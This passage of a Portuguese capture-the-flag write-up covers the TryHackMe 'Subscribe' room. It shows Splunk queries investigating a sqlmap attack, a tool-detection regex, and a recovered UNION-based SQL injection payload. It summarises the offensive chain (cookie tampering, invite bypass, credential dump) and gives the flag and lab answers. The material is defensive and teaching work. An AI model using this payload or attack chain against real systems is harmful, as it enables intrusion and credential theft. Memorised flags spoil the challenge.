
> 🚩 **FLAG CAPTURADA: `TryHack3M{3MSUBSCRIBERS}`**

---

## 🔵 Parte 2 — Investigação de Incidente (Blue Team / Splunk)

Com a instância de **Splunk** identificada na Fase 1 (portas 8000/8089), a segunda etapa do desafio consistiu em investigar, na condição de **analista de SOC**, como o ataque original dos "UnderGround Hackers" havia ocorrido — usando os mesmos logs Apache já ingeridos na plataforma.

### FASE 10 — Volumetria Geral do Índice

Uma primeira consulta ampla mediu o volume total de eventos disponíveis para análise:

```spl
index=main
```

```
10.530 eventos (sourcetype=apache_logs, host=web_server, source=web_logs.json)
```


> 📊 **Achado: 10.530 eventos totais disponíveis no índice principal (`index=main`) para a janela de investigação.**

---

### FASE 11 — Identificação do IP Atacante e Volume de Requisições

Uma análise preliminar dos logs revelou um endereço IP com um padrão de tráfego anômalo, concentrado inteiramente sobre o endpoint de login:

```spl
index=* sourcetype="apache_logs" "83.45.212.17"
| table _time, _raw
```

```
184 eventos — todos: POST /api/login.php, host_name=www.Hack3M.THM,
status_code=200, user_agent="sqlmap/1.2.4#stable (http://sqlmap.org)"
```


> 📊 **Achado: IP suspeito `83.45.212.17` responsável por 184 requisições POST ao endpoint `/api/login.php`, todas com User-Agent de ferramenta automatizada de SQL Injection.**

---

### FASE 12 — Identificação da Ferramenta de Ataque (Assinaturas de User-Agent)

Para confirmar de forma abrangente (sem se limitar ao IP já suspeito) qual ferramenta ofensiva havia sido utilizada contra a plataforma, uma busca por expressão regular sobre assinaturas conhecidas de ferramentas de pentest foi executada em todo o índice:

```spl
index=* sourcetype="apache_logs"
| regex _raw="(?i)(sqlmap|nikto|nmap|gobuster|dirbuster|metasploit|burp|acunetix|nessus|zaproxy|wpscan|hydra|masscan)"
| table _time, _raw
```

```
158 eventos — 100% originados de source_ip="83.45.212.17"
user_agent: "sqlmap/1.2.4#stable (http://sqlmap.org)"
```

O resultado confirmou, de forma definitiva e independente do filtro por IP, que a **totalidade dos eventos com assinatura de ferramenta de hacking** partiu do mesmo endereço (`83.45.212.17`), utilizando exclusivamente o **sqlmap** — a mesma ferramenta empregada nesta reavaliação ofensiva (Fase 8).


> 📊 **Achado: 158 eventos confirmam o uso da ferramenta `sqlmap` (versão 1.2.4) pelo atacante `83.45.212.17` — nenhuma outra ferramenta de ataque foi identificada nos logs.**

---

### FASE 13 — Reconstrução do Payload Malicioso Original

Por fim, uma busca direcionada por padrões clássicos de SQL Injection (`SELECT`, `FROM`, `information_schema`, `tables`) recuperou o **payload exato** utilizado no ataque histórico:

```spl
index=* sourcetype="apache_logs" "83.45.212.17"
| search _raw="*SELECT*" OR _raw="*FROM*" OR _raw="*information_schema*" OR _raw="*tables*"
| table _time, _raw
```

```
GET/POST /api/login.php?...SSyw=7014 AND 1=1 UNION ALL SELECT 1,username,password,2,3,4
FROM TryHack3M_users WHERE role="admin" ORDER BY role LIMIT 1-/**/;# HTTP/1.1
user_agent: sqlmap/1.2.4#stable (http://sqlmap.org)
```

O payload confirmou que o incidente original consistiu em uma **injeção SQL UNION-based**, extraindo diretamente as colunas `username` e `password` da tabela **`TryHack3M_users`**, filtrando por `role="admin"` — a **mesma classe de vulnerabilidade e o mesmo vetor de exploração** (SQLi via sqlmap contra endpoint de autenticação) reproduzidos de forma independente nesta reavaliação (Fases 7–8), evidenciando que a falha nunca havia sido corrigida antes deste engajamento.


> 🚨 **Atribuição confirmada: o incidente histórico foi causado por SQL Injection UNION-based via `sqlmap` contra `/api/login.php`, extraindo credenciais da tabela `TryHack3M_users` — vulnerabilidade idêntica à re-explorada nesta avaliação.**

---

## ⛓ Linha do Tempo do Comprometimento

```
[25/08 20:17 GMT] RECONHECIMENTO (Nmap)
    10.64.145.247 → HTTP (80), Splunk (8000/8089), MongoDB (8191), serviço oculto (40009)
    ↓
[FASE 2] ENUMERAÇÃO WEB (Gobuster)
    sign_up.php "Registration disabled — Invite-only" — storyline confirmado
    ↓
[FASE 3] BYPASS DO CONVITE
    js/invite.js → função condicionada ao hostname capture3millionsubscribers.thm
    Invite Code obtido via Console → guest@hackme.thm:wedidit1010
    ↓
[FASE 4] ESCALONAMENTO CLIENT-SIDE
    document.cookie → isVIP=false → alterado para true
    Training Room 2: Advanced Red Teaming desbloqueada
    ↓
[FASE 5] VAZAMENTO DE CÓDIGO-FONTE
    $SECURE_TOKEN + $urlAdminPanel → admin1337special.hackme.thm:40009 revelado
    ↓
[FASE 6-7] ENUMERAÇÃO + INTERCEPTAÇÃO (Gobuster + Burp)
    /login, /logout, /dashboard (403) — POST /api/login.php (JSON) capturado
    ↓
[FASE 8] SQL INJECTION (sqlmap)
    Parâmetro JSON 'username' injetável — MySQL — dump: admin:adminisadm1n
    ↓
[FASE 9] LOGIN ADMIN + FLAG
    fireworks.../index.php → FLAG: TryHack3M{3MSUBSCRIBERS} ✓
    ─────────────────────────────────────────────
    [FASE 10-13] INVESTIGAÇÃO SPLUNK (Blue Team)
    index=main → 10.530 eventos totais
    IP 83.45.212.17 → 184 requisições POST /api/login.php
    Regex de ferramentas → 158 eventos, tool=sqlmap/1.2.4#stable
    Payload histórico → UNION SELECT ... FROM TryHack3M_users WHERE role="admin"
    ↓
[25/08 22:34 GMT] DESAFIO CONCLUÍDO — Exploração ofensiva + atribuição do incidente histórico
```

---

## 🗺 Mapeamento Investigativo

| Fase | Ferramenta/Técnica | Achado |
|------|--------------------|--------|
| Reconhecimento | Nmap (`-p- --min-rate=5000` / `-sV -sC`) | Portas 80, 8000/8089 (Splunk), 8191 (MongoDB), 40009 (painel oculto) |
| Enumeração | Gobuster (porta 80) | `sign_up.php` desabilitado — storyline confirmado |
| Bypass de controle | Análise de JS (`invite.js`) | Convite liberado apenas via vhost `capture3millionsubscribers.thm` |
| Cadastro | Console DevTools (`e()`) | Credencial de teste `guest@hackme.thm:wedidit1010` |
| Escalonamento | Manipulação de cookie (`isVIP`) | Acesso à sala VIP "Advanced Red Teaming" |
| Vazamento de segredo | Leitura de código-fonte exposto | `$urlAdminPanel` → `admin1337special.hackme.thm:40009` |
| Enumeração do painel | Gobuster (porta 40009) | Rotas `login`, `logout`, `dashboard` |
| Interceptação | Burp Suite | Requisição JSON de login capturada para sqlmap |
| Exploração | sqlmap (parâmetro JSON `username`) | Credenciais reais do admin (`admin:adminisadm1n`) dumpadas |
| Resultado | Login admin + `fireworks/index.php` | Flag `TryHack3M{3MSUBSCRIBERS}` capturada |
| Investigação (Blue Team) | Splunk (`index=main`) | 10.530 eventos totais no índice |
| Investigação (Blue Team) | Splunk (filtro por IP) | IP `83.45.212.17` — 184 requisições a `/api/login.php` |
| Investigação (Blue Team) | Splunk (regex de ferramentas) | 158 eventos — ferramenta `sqlmap/1.2.4#stable` confirmada |
| Atribuição | Splunk (payload SQLi) | UNION SELECT histórico contra tabela `TryHack3M_users` |

---

## 🚨 Artefatos e Indicadores Identificados

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Alvo | `hackme.thm` / `capture3millionsubscribers.thm` (`10.64.145.247`) | Plataforma "Hack3M Cyber Security Training" (TryHackMe — TryHack3M: Subscribe) |
| Serviço oculto | Porta `40009` | Painel administrativo `admin1337special.hackme.thm`, revelado via vazamento de código-fonte |
| Vulnerabilidade | Bypass de restrição de cadastro por hostname | `js/invite.js` condiciona liberação do convite ao vhost `capture3millionsubscribers.thm` |
| Vulnerabilidade | Broken Access Control (Client-Side) | Cookie `isVIP` controla acesso a conteúdo premium sem validação server-side |
| Vulnerabilidade | Exposição de código-fonte sensível | `$SECURE_TOKEN` / `$urlAdminPanel` expostos na sala "Advanced Red Teaming" |
| Vulnerabilidade crítica | SQL Injection (JSON `username`) | `/api/login.php` no painel admin — boolean/error/time-based, MySQL |
| Credenciais reais | `admin : adminisadm1n` | Dumpadas via sqlmap na tabela `users` (base `hackme`) |
| Flag do desafio | `TryHack3M{3MSUBSCRIBERS}` | Revelada em `fireworks10123123bb11210231/index.php` após restauração do cadastro |
| IOC — IP atacante (histórico) | `83.45.212.17` | Origem de 184 requisições a `/api/login.php` e 158 eventos com assinatura `sqlmap` |
| IOC — Ferramenta | `sqlmap/1.2.4#stable (http://sqlmap.org)` | User-Agent identificado em 100% dos eventos maliciosos no Splunk |
| IOC — Payload histórico | `UNION ALL SELECT 1,username,password,2,3,4 FROM TryHack3M_users WHERE role="admin"` | Injeção que comprometeu originalmente o painel administrativo |
| Volumetria | 10.530 eventos (`index=main`) | Total de logs Apache disponíveis para a janela investigada |
| Técnica (OWASP) | A01:2021 – Broken Access Control | Controle de acesso VIP e de convite delegado inteiramente ao cliente |
| Técnica (OWASP) | A03:2021 – Injection | SQL Injection em `/api/login.php` (JSON) — atual e histórica |
| Técnica (MITRE ATT&CK) | `T1190` (Exploit Public-Facing Application) | Exploração da SQLi no painel administrativo |
| Técnica (MITRE ATT&CK) | `T1552.001` (Unsecured Credentials in Files) | Token/URL de admin expostos em código-fonte de treinamento |
| Técnica (MITRE ATT&CK) | `T1548` (Abuse Elevation Control Mechanism) | Escalonamento de privilégio via manipulação de cookie `isVIP` |
| Técnica (MITRE ATT&CK) | `T1592.002` (Gather Victim Host Information: Software) | Identificação de ferramenta ofensiva (sqlmap) via assinatura de User-Agent nos logs |

---

## ✅ Resumo da Flag e Respostas da Investigação

| # | Item | Valor | Origem |
|---|------|-------|--------|
| 🚩 Flag | Página de comemoração pós-restauração do cadastro | `TryHack3M{3MSUBSCRIBERS}` | `capture3millionsubscribers.thm/fireworks10123123bb11210231/index.php` |
| 📊 Volumetria total | Eventos em `index=main` | `10.530` | Busca `index=main` no Splunk |
| 📊 Requisições do atacante | Requisições POST a `/api/login.php` do IP `83.45.212.17` | `184` | Busca `index=* sourcetype="apache_logs" "83.45.212.17"` |
| 📊 Ferramenta de ataque | User-Agent identificado via regex de ferramentas ofensivas | `sqlmap/1.2.4#stable` (`158` eventos) | Busca por regex `(sqlmap\|nikto\|nmap\|...)` |
| 📊 Tabela comprometida (histórico) | Tabela extraída no ataque original | `TryHack3M_users` | Payload UNION SELECT recuperado do log bruto |

---

## 📚 Referências

- [TryHackMe — TryHack3M: Subscribe](https://tryhackme.com/room/tryhack3msubscribe)
- [OWASP — A01:2021 Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [OWASP — A03:2021 Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [sqlmap — Documentação Oficial](https://sqlmap.org)
- [Splunk Docs — Search & Reporting](https://docs.splunk.com/Documentation/Splunk)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK T1548 — Abuse Elevation Control Mechanism](https://attack.mitre.org/techniques/T1548/)

---